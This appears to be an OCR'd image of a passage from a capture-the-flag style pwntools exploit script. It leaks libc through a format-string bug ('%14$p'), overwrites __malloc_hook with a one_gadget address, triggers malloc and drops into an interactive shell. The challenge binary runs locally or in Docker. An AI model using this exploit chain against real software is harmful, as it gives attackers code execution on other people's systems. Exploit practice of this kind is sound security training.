 ``` python
    sleep(1)

def main():
    if(len(sys.argv) > 1):
        s = remote("0.0.0.0", int(sys.argv[1]))
        pid = os.popen("sudo docker top {BINARY} -eo pid,comm | grep {BINARY} | awk '{print $1}'").read()
        if DEBUG:
            gdb.attach(int(pid), gs, exe=BINARY, sysroot="./")
    else:
        s = process(BINARY, env={"LD_PRELOAD" : LIBRARY})
        if DEBUG:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    s.recv()

    # overwrite stderr in stack to stdout
    stack_control(s, rsp + 0x18, 0x2620, stderr=True)

    # leak libc base
    payload = b"%14$p"
    s.sendline(payload)
    libc = int(s.recv(), 16) - 0x20840
    sleep(1)
    malloc_hook = libc + malloc_hook_offset
    one_gadget = libc + one_gadget_offset
    log.info(f"libc : {hex(libc)}")
    log.info(f"malloc_hook : {hex(malloc_hook)}")
    log.info(f"one_gadget : {hex(one_gadget)}")

    # write one_gadget address to malloc_hook
    arbitrary_write(s, malloc_hook, one_gadget)

    # trigger malloc -> malloc_hook
    s.sendline(f"%{0x21000}c".encode())
    s.recv(0x21000)
    sleep(1)
    s.interactive()

if __name__=='__main__':
    main()
```